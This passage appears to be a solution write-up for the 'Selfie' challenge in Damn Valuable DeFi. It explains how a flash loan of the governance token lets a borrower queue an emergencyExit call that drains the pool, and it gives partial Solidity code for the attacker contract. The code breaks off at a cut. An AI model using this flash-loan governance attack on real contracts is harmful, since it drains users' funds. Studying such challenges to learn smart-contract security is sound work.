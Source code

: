 2. So we have a function called as emergencyExit which has a modifier onlyGovernance but it's of no use because our asset token and governance token are the same so we have power over it.
so first we call flashLoan in which we will send `data = abi.encodeFunctionSignature("function emergencyExit(address)")` so we can drain funds.

3. But calling of emergencyFunds will happen after 2 days of queueing action  when the attacker is able to executeAction its parameter data will have value as emergencyExit;

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {SelfiePool} from "./SelfiePool.sol";
import {SimpleGovernance} from "./SimpleGovernance.sol";
import "../DamnValuableTokenSnapshot.sol";
import "@openzeppelin/contracts/interfaces/IERC3156FlashBorrower.sol";
/*
Steps of mitigation:
 
As we know that in function flashLoan there an arbitary call made to the onFlashLoan which returns bytes32 
and its value is already known, so we can manipulate the function to do something else but return the expected value to pass
flashLoan.
So we have an function called as emergencyExit which has an modifier onlyGovernance but its off no use because our asset
token and goverence token are the same so we have an power over it.
so first we call flashLoan in which we will send data = abi.encodeFunctionSignature("function emergencyExit(address)") so we can drain funds

 but calling of emergencyFunds will happen after 2 days of queueing action  when attacker is able to executeAction its parameter data
 will have value as emeregencyExit;
 
 */

contract selfieAttacker is IERC3156FlashBorrower{

    SelfiePool public immutable pool;
    SimpleGovernance public governance;
    DamnValuableTokenSnapshot public token;
    address public player;
    uint256 public amount = 1500000 ether;//1.5Million

    constructor(SelfiePool _pool,SimpleGovernance _governance,DamnValuableTokenSnapshot _token,address _player){

        pool = _pool;
        governance = _governance;
        token = _token;
        player = _player;
    }
    function getLoan()public{
        bytes memory data = abi.encodeWithSignature("emergencyExit(address)", player);

        pool.flashLoan(IERC3156FlashBorrower(address(this)),address(token),amount,data);
    }

    function onFlashLoan(address,address,uint256 _amount,uint256,bytes calldata data) external returns(bytes32){

        require(token.balanceOf(address(this))==1500000 ether,"Token Balance Failed");
        uint256 id = token.snapshot();
        require(id==2,"Failed ID");
        governance.queueAction(address(pool),0,data);
```